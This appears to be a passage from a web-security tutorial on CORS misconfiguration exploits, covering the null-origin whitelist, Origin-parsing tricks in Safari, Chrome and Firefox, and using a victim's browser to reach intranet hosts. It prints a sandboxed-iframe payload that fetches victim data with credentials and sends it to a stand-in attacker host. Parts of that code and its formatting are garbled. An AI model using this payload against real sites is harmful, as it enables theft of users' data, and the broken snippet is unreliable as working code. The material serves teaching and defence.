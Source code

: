 ## The null Origin

The specification for the `Origin` header supports the value `null`. Browsers might send the value `null` in the `Origin` header in various unusual situations:

* Cross-site redirects,
* Requests from serialized data,
* Request using the `file:` protocol,
* Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application.

For example, application receives the following request:

\`\`\`http request GET /sensitive-victim-data Host: vulnerable-website.com Origin: null

```text
and responds with:

```http request
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```

In this situation, an attacker can use various tricks to generate a cross-domain request containing the value `null` in the `Origin` header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```markup
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
fetch('https://vulnerable-website.com/sensitive-victim-data', {
    credentials: 'include'
})
    .then((response) => {
        document.location = '//malicious-website.com/log?key={0}'.format(response.text());
    });
</script>"></iframe>
```

## Breaking Parsers

Useful references:

* [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/)

Most websites use basic string operations to verify the `Origin` header, but some parse it as a URL instead. This allows to exploit the of browser's tolerance for unusual characters in domain names.

In Safari, `http://foo.com%60.bar.net/` is a valid URL. If the CORS request originating from that URL will contain:

`````http request Origin: http://foo.com```.bar.net/

```text
 and a site chooses to parse this header, it will potentially think that the hostname is `foo.com` and reflect it, letting us exploit Safari users even though the site is using a whitelist of trusted hostnames.

Chrome and Firefox supported the `_` character in subdomains. This allow to use `_` instead of `` ` `` to exploit Firefox and Chrome users.

## Abusing CORS without Credentials

If the victim's network location functions as a kind of authentication, then you can use a victim’s browser as a proxy to bypass IP-based authentication and access intranet applications. In terms of impact this is similar to DNS rebinding, but much less fiddly to exploit.
`````